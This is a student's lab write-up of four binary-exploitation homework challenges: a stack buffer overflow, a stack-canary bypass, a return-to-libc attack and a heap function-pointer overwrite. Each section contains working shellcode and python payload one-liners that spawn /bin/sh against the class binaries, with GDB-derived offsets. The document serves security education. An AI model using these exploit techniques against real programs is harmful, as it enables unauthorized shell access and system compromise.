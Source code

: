 # Author

Derek Xu

# Challenge 1

This one involves a buffer overflow attack.

We first use the shell code provided in class that runs the assembly to invoke a shell.

```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69
\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

Then we run gdb on the binary to find the address of the buffer overflow. We found out that we have to overwrite about 80 bytes. With a 23 byte shell code, we pad the shell code with 39 NOPs, and 14 random bytes, then with the new return address we want to go to. With some trial and error with the padding and NOP sled, we are able to invoke the shell via the binary script.

![1_bufferlen](images/1_bufferlen.png)

We can then fill the buffer with the given code.

```bash
 python -c "print '\x90'*39+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f
 \x62\x69\x6e\xb0\x0b\x89\xe3\x31\
 xc9\x31\xd2\xcd\x80'+'A'*10 +'B'*4+'\x7c\xad\xff\xbf'" > asd
```

Then inspecting GDB, we can figure out where to put the return address (anywhere within the NOP area). This is different outside of GDB, which is why it took some trial and error to eventually work.

![1_retaddr](images/1_stack2.png)

We use this return address and then we can invoke a shell.

![1_answer](images/1_answer.png)

# Challenge 2

This one is very similar to challenge 1. We can use the same distances between the buffer and return address as Challenge 1 but add 4 to it since instead of just a 64 byte buffer, we have an extra 4 byte buffer before that as well. So we have to overwrite 84 bytes.

This new code requires check of a canary at the position right after the buffer. So we need to add the canary value within our payload right after 64 bytes of something before. We can then add in the 4 byte canary value and add in the rest of the padding and return address to execute our injected shell code.

To get the value of the canary, I first flooded the 64 byte buffer with 63 A's (with the string terminator = 64 bytes). Then I inspected the stack and found the value right after the A's to be 0x726c576e. Upon looking at the raw c code, it's clear that the value won't change since rand() is used without a seed, so it will produce the same canary value every execution. We can put that canary value into our payload to bypass the canary check. Using the same process of using GDB to find the return address, we can update the return address to put the program into the NOP slide.

![canary](images/2_canary.png)

After a lot of trial and error, I was able to use the following

```bash
python -c "print '\x90'*41 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b
\x89\xe3\x31\xc9\x31\xd2\xcd\x80'+ 
'\x6e\x57\x6c\x72' + 'A'*12 + '\x1c\x65\xff\xbf'" > asd2
```

This gave the following shell that we can use to get the flag.

![2_answer](images/2_answer.png)

# Challenge 3

This challenge involves a similar case to challenge 1, but now stack pages are separated between data and executable pages. Thus we need to find a way to return into libc so that we can run a libc function instead.

We first set the SHELL environment variable to be /bin/sh.

We need to overwrite 44 bytes. System is at 0xb7e2a250 as given by the `p system` command in GDB.

![3_stack](images/3_bufferlength.png)

![3_systemloc](images/3_systemloc.png)

So in total, to create a stack frame for system(), we need to fill the buffer with 44 + 4 (func return address) + 4 (system() return addr) + 4 (system() parameters) = 56 bytes.

In order to get the /bin/sh binary, we can write a script that will get the environment of a binary and find the offset from SHELL to the beginning of the binary.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {

        char *target_env = argv[1];
        char *env = getenv(target_env);


        printf("%p\n", env);

        return 0;

}
```

This gives 0xbfffff0d. When using this address, we can insert it as the argument for system().

![3_getshell](images/3_getshell.png)

```bash
python -c "print 'A'*44 + '\x50\xa2\xe2\xb7' 
+ 'BBBB' + '\xfd\xfe\xff\xbf'" > asd3
cat ~/hw5/asd3 - | /usr/bin/binary3
```

This gives us an error if we use the address given to us by the getenv program. It shows that we are reading somewhere else in our ENV list. So we tweak the address of it to be 0xbffffefd instead. This points straight to "/bin/sh", which then gets called by system() and we then have a shell running under binary3. Eventually using the address above lets us run the shell.

This gives us the answer

![3_answer](images/3_answer.png)

# Challenge 4

This is a heap overflow attack. We need to overwrite the heap function pointer that points to "target" with the address of the shell. Then, when f->fp() is called, fp() will be pointing to the shell code we inject.

We first need to find the distance between r and f, since we are writing to r and want to overwrite f's heap memory. This was 1248.
So, we need to overwrite roughly 1248 + 4 bytes. So we can use 1225 (nop sled) + 23 (shell code) + 4 (new function start address)

![4_heapaddresses](images/4_heapaddresses.png)

The following worked for me. You can choose any return address within the heap memory pointed to by 'r' as those are all NOPs.

```bash
python -c "print '\x90'*1225 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0
\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80' + 
'\xe1\xb1\x04\x08'" > asd4

/usr/bin/binary4 $(cat ~/hw5/asd4)
```

![4_rmemory](images/4_rmemory.png)

![4_heapanswer](images/4_answer.png)
